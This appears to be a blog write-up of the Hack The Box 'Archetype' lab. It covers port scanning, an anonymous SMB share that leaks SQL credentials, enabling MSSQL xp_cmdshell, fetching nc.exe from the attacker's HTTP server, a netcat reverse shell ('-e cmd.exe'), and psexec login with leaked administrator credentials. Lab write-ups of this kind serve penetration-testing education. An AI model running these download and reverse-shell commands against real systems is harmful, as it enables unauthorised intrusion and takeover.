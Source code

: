 ```yaml
---
published: true
---
```

<center>
<script src="https://tryhackme.com/badge/39696"></script>
</center>


This one was a classic, the room revolves around a misconfiguration in mssql that allows the user to enable_xp_cmdshell which opens a path to achieve remote code execution on the machine via xp_cmdshell. And a later exploitation of an unsecured important file that led to full access on the machine.  




## Information Gathering
---
### Starting with a port scan:
First we do a fast scan in order to identify what ports are up and running:   
**nmap 10.10.10.27 -p- -Pn --min-rate 1500 -vvv -oN AllPorts.txt**
![nmap.png]({{site.baseurl}}/images/nmap.png)


And after that we run a full scan on the ports that we have identified:    
 **sudo nmap 10.10.10.27 -p 135,139,445,1433,5985,47001 -sVC -O -v -oA FoundPorts.txt**

which gives us the following output:
![nmap2.png]({{site.baseurl}}/images/nmap2.png)


We can check the running services and see that the running OS is Windows. Even more, it seems to be running a Microsoft Windows Server between version 2008 R2 and 2012 which are known to have quite a handful of exploits. Only in 2021 there have been [186 exploits](https://stack.watch/product/microsoft/windows-server-2008/#:~:text=In%202021%20there%20have%20been,had%20382%20security%20vulnerabilities%20published.&text=However%2C%20the%20average%20CVE%20base,2021%20is%20greater%20by%200.42.) with an average CVE of 7.9 out of 10.

We also see **WinRM** (Windows Remote Management) that is a Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate.
[EvilWinRm](https://github.com/Hackplayers/evil-winrm) can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff. 




## The SMB share
---
Having port 445 up hints me to try to connect to HTB Archetype using smb.

**smbclient -L 10.10.10.27**  
![smbp.png]({{site.baseurl}}/images/smbp.png)


Looks like we have found quite a few shares, even without using a password.
The most interesting share is "**backups**" which is also the only non-default share.  
Using **smbclient \\\\10.10.10.27\\backups** we can connect to this share.

We now have access to a config file **prod.dtsConfig** that  can be downloaded with: 
**get prod.dtsConfig**.
![smb2.png]({{site.baseurl}}/images/smb2.png)


The file was actually a lucky hit as it contains information about the backend database and also an username and password pair which can be used to gain a foothold on the box.

![file.png]({{site.baseurl}}/images/file.png)




## Obtaining a foothold
---
I am going to use the **impacket mssql client** from [SecureAuthCorp](https://github.com/SecureAuthCorp/impacket) in order to connect to the database.

### Installing steps
1. cd /opt  && sudo git clone https://github.com/SecureAuthCorp/impacket.git
2. cd impacket/
3. sudo pip3 install .
4. sudo python3 setup.py install

The command line goes as it follows:  
 **python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth**

_Note:  "-windows-auth" flag is very important since w/o it the shell won't be able to connect to the database._

This lands us in a what appears to be a SQL shell, running a few SQL commands seem to prove my hypothesis, now as with any other tool that you are not quite sure how it's supposed to be run, typing HELP is always a good option ;).

![sql.png]({{site.baseurl}}/images/sql.png)

As it looks like we have enough privileges to enable xp_cmdshell, so we go on and type **enable_xp_cmdshell;** and after that **reconfigure;**.


Now in order to see if we can run commands i'm going to try the following syntax: **xp_cmdshell powershell whoami /priv**, and this sure enough returns the Privileges information of the current user.
![shrll1.png]({{site.baseurl}}/images/shrll1.png)  

_Note: Pay attention to [SeImpersonatePrivilege](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) as this will be important later, also it helps reading about [exploitable windows tokens](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) if you're interested in privilege escalation techniques_

Now as we got a foothold we can either try to get a more stable shell, or proceed with this one. But for now this is enough to grab the user flag.
![FlagUser.png]({{site.baseurl}}/images/flag1.png)
 



## Escalating to a reverse shell
---
Escalating to a reverse shell in this scenario is pretty much trivial and can be done in a handful of ways.
The way i'm going to do it is by uploading an [old windows netcat executable](https://github.com/Ev3nS/Useful-Pentesting-Executables) that has the **-e flag** in order to spawn a powershell.exe and send it to my local listener.

### Uploading  nc.exe
1. Spawning a http server on desktop (where the executable is located):  
![httpServer.png]({{site.baseurl}}/images/httpServer.png)
2. Getting the executable on the machine with the command line:  
**xp_cmdshell powershell "wget http://YourIP:GivenPort/nc.exe -OutFile %temp%/nc.exe"**  
![SqlCommand.png]({{site.baseurl}}/Images/SqlCommand.png)


### Getting the shell
1. Spawning a local listener on port 4444 with the command line: **nc -lvnp 4444**
2. Running the uploaded executable as it follows: **xp_cmdshell  powershell "nc.exe YourIP YourPort -e cmd.exe"**  
![SqlCommand2.png]({{site.baseurl}}/Images/SqlCommand2.png)
3. Check if we got a hit on our local listener:  
![FirstCmdShell.png]({{site.baseurl}}/Images/FirstCmdShell.png)




## Escalating to a root shell
---
As of now, we have full access to a low privileged account, so a good thing to do is to enumerate what you can do with that account on the system. Also we know from the SMB chapter that this user can Impersonate Tokens, which means that we can take ownage of a process run by a higher privileged user on the system and create a privileged shell. This can be done via [Juicy-Potato exploit](https://github.com/ohpe/juicy-potato). But for the sake of this room i will go with an easier path, as this vulnerability will be exploited in a later post.

Once you gain access to a shell in general it is good to check a few things: what privileges you have, what processes are running, what is your ip, who else is on the box, what files you have access to, any weird files/binaries/executables that shouldn't be there, are there any notes or secret files that are left unprotected? what's the bash/batch history and so on.

Fortunately, while digging for the last accessed files i've found this peculiar file lying around:  		 

![oddfile.png]({{site.baseurl}}/images/oddfile.png)

As it looks like this file was actually pretty useful as it leaks the credentials of the administrator account:  
![creds.png]({{site.baseurl}}/images/creds.png)


Now as we have the credentials we can use a [python tool for PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) in order to remotely connect to the box as administrator:
![root.png]({{site.baseurl}}/Images/root.png)

All that is left to do now is to grab the root flag and we're done.    
![rootflang.png]({{site.baseurl}}/images/root2.png)



## Conclusions
---
On an ending note, i really liked this box for the fact that it promotes a good pentesting methodology, it's backbone is just a lot of enumeration and googling  and it offers a nice corelation between different services.
